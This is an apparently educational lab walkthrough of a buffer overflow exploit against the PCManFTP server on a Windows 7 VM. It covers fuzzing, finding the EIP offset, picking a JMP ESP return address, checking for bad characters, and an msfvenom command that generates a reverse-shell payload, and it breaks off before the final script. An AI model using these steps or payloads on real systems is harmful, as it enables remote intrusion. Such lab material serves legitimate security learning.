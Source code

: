 # BUFFER OVERFLOW PCManFTP Server

### Setup
  - Follow along video: https://www.youtube.com/watch?v=nwJxWfmhb8s
  - Vulnerable App: https://www.exploit-db.com/apps/9fceb6fefd0f3ca1a8c36e97b6cc925d-PCMan.7z
  - Attacker VM: Kali Linux 2020
  - Victim VM: Windows 7 SP1 32 Bit
    - Firewalls Off
    - UAC Off
    - Immunity Debugger Installed ( https://www.immunityinc.com/products/debugger/ )
    - PCManftp extracted to C:\PCMan
  - Using VirtualBox and a NAT Network

### Getting Started
Make sure you have you VMs installed, the NAT Network enabled so the machines can talk to each other, and the Immunity Debugger and PCManFTP software installed. When you are ready, start up your Kali machine and the Windows 7 box. 

When Windows is ready, start the PCManFTP program, we don't need Immunity yet, so leave that closed.

### Fuzzing the App
I'm fairly certain we can overload the username field and crash the program, so we are going to use a python script to do so. In the file *fuzzer1.py* we will use a socket connection to send the username as an increasingly large number of "A's" until we crash the program. Each time the process runs it send the username as a string of A's and then the word pass for the password before disconnecting and telling us hw many characters it sent. Eventually the program will crash and we'll have a good idea of how many characters to send to cause the crash. We run the program by entering `python fuzzer1.py`.

### After the Crash: Finding the Offset
From our results of running *fuzzer1.py* we know that the crash happens between 2000 and 2100 characters, so now we need to narrow that down. To do so we will copy fuzzer1.py into a new file called fuzzer2.py and add in a long, unique string to help find the correct offset. To do so, we'll run a simple command in our Kali VM:

` /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2100 `

This will genrate a long string 2100 characters long. We'll send that string as our username so we can find the offset. Take a look at *fuzzer2.py* to see how we add this. Before run fuzer2.py, we need to restart the PCManFTP program on our Win & VM, and also start up Immunity Debugger.

Once we have both programs running, go into Immunity Debugger and click File > Attach and choose the PCManFTP program from the list and click "Attach." Next, click the Play arrow in the upper left - make sure the lower left corner says "Running". Now we ca switch back to our Kali VM and run fuzzer2: `python fuzzer2.py`.

The program will crash quickly, but our python script will be hung, just hit ctrl + c to kill it, then switch to our Win 7 VM. In the Immunity Debugger, look at the upper right quadrant and write down the address listed in the EIP section - this is a piece of the random string we sent and will tell us the offset. After you get it written down, switch back to the Kali VM. Now we run another command and tell it the address we wrote down:

` /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 396F4338`

In a couple seconds the program will return the offset, in my test this was 2006 characters. Now we copy fuzzer2.py to make fuzzer3.py:
`cp fuzzer2.py fuzzer3.py`.

So now in fuzzer3 we change up what we are sending:
`client.send("user " + "A" * 2006 + "B" * 4 + "C" * 300)`

This will send 2006 A's, followed by 4 B's and 300 C's. What we hope to see is the EIP changed to 42424242 - which would be the 4 B's that follow our offset of 2006 A's. Once our script is ready, we need to switch to the Win 7 VM and restart PCManFTP and Immunity Debugger, and then attach and run as we did before.

Once we are set, we can run fuzzer3: `python fuzzer3.py`  and we should crash the program again. Switch back to the WIN 7 VM and confirm that the EIP is 42424242, if it's not, then we need to figure out why. If it reads 42424241 we have 1 too many A's, 42424141 is 2 too many, etc. If it's all 43's then we don't have enough A's.

### We have all 42's...
OK, so we have the correct offset, don't close Immunity yet! In the menu bar located in the upper left, click on the button labeled "e" to show the running processes. We need to find and double-click on the line containing "SHELL32.DLL". Now we need to right-click in the upper left quadrant and choose Search For... > Command and enter in JMP ESP to search for our return address. We need to write down that address to use in the rest of our scripts.

Now let's copy our fuzzer3.py script into fuzzer4.py:  `cp fuzzer3.py fuzzer4.py`

Now, before we start making changes we need to jump back into the WIN 7 VM and set things back up for another run. This time, before we hit the run button, we need to right-click in the upper left quadrant and select "Go To" > "Expression" and then paste in our return address. After we hit OK we need to hit the F2 key to set a breakpoint, then we can click run and return to our script writing.

In our fuzzer4.py script, we are going to replace the `+ "B" * 4 ` part of our script with `+ ret `. Then at the top we need to add:

`ret = "\x28\x6c\x9A\x76"`

This is our return address **769A6C28** written in little endian format. This is the 4 pairs written in reverse order with a preceding \x between each two character set.

Once this is set, we can run our program and see if the PCManFTP program is in a paused state in Immunity Debugger and stopped at the address we placed the breakpoint. If it is, we are good to go, if not we'll need to review our steps up to now and find our mistake.

##Bad Characters
Now we need to reset everything on the Win 7 box, without the breakpoint this time, and make a copy of our fuzzer4 script as fuzzer5.py:

`cp fuzzer4.py fuzzer5.py`

In the new script we need to replace the `+ "C" * 300 ` part of our script with `+ badchar `

And in the upper part of the script we need to add:

`badchar = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
`
Now when we run the script we'll need to take a hard look at the bottom right quadrant of Immunity Debugger. We will be looking for bad characters that might make our exploit crash, \x00 is always a bad character, so we don't have that in our list - but we need to remember it for later. 

Now we run the fuzzer5 script and then switch back to the WIN 7 VM. In Immunity Debugger, we need to scroll in the lower right pane until we reach the end of the A's we sent, and then past the return address we set. What we will see is something *like* this:

`
0012F564 04030201 xxxx
0012F565 08000605 xxxx
0012F566 12111009 xxxx
...
`

What we need to look for is any missing number - in the example above the number 07 was replaced with 00 - that's a bad character and we need to make a note of it, and remove it from the badchar list in our script. We need to repeat this process until we don't have any more bad characters. In my example, I ran this 3 times and ended up with these bad characters: \x00\x0a\x0d,

Once we know the bad characters, we can close Immunity Debugger and re-run the PCManFTP program by itself. Then we need to jump back to Kali and copy our fuzzer5 script to exploit.py:

`cp fuzzer5.py exploit.py`

We can delete all the badchar stuff now and then add some new variables to our script:

`nop = "\x90" * 20
buf = b""`

In this case *nop* means no operation, we add 20 of these so the code has a buffer between our return address and the exploit code. The *buf* here is creating our exploit code - we will complete this after we create the code using MSVenom. The b"" means we are adding bytecode. For the rest of the exploit we will start each line with buff += b

So let's create our exploit code, we do this by running:

`msvenom -p windows/shell_reverse_tcp LHOST=10.0.2.15 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00\x0a\xod"`

So let's break this down:

  -*msvenom* Starts the msvenom program
  
  -*-p* Sets the path to the exploit we want
  
  -*windows/shell_reverse_tcp* Tells the program we want a reverse shell for Windows
  
  -*LHOST=10.0.2.15* This is our local machine's IP address
  
  -*LPORT=4444* Sets the port we will be listening on for the reverse shell
  
  -*EXITFUNC=thread* Set the exit function to THREAD so we can interact with the reverse shell
  
  -*-f* Specify the file type
  
  -*c* Write the shellcode as a C program
  
  -*-a* Set the architecture of the victim machine
  
  -*x86* Set this as a 32-bit machine for the code
  
  -*-b* Specify bad characters to avoid
  
  -*"\x00\x0a\xod"* These were the bad characters we found.
  
  

*rest of article coming soon*




